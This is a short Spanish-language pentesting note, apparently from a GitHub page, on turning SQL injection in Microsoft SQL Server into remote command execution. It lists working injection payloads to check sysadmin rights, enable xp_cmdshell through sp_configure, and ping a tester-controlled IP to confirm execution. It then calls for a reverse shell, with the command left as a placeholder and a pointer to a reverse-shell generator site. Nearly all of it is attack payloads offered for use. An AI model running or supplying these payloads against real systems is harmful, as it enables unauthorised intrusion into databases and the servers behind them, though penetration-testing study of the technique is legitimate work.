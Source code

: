 ### INFO
En primera instancia deberemos cerciorarnos de que nuestro user es SA(sysadmin).

    <dato>' AND IS_SRVROLEMEMBER('sysadmin')=1;--

Si la respuesta nos da true, podemos intentar conseguir una shell reversa abusando de xp_cmdshell.

1. Primero habilitamos las advanced options, esta respuesta deberia darnos false.

    ';exec sp_configure 'show advanced options','1';reconfigure;--

2. Habilitamos el xp_cmdshell, debería darnos false:

    ';exec sp_configure 'xp_cmdshell','1';reconfigure;--

3. Podriamos probar que todo esté funcional y haya conexión enviandonos un ping corriendo previamente tcpdump:

    sudo tcpdump -i <interfaz>

Luego enviamos el ping:

    ';exec xp_cmdshell 'ping /n 4 192.168.43.164';--

4. Si esto funciona, podriamos enviarnos una shell reversa

    ';exec xp_cmdshell '<shell reversa>'.


Podemos usar revshell para generar reverseshells de manera sencilla:

https://www.revshells.com/
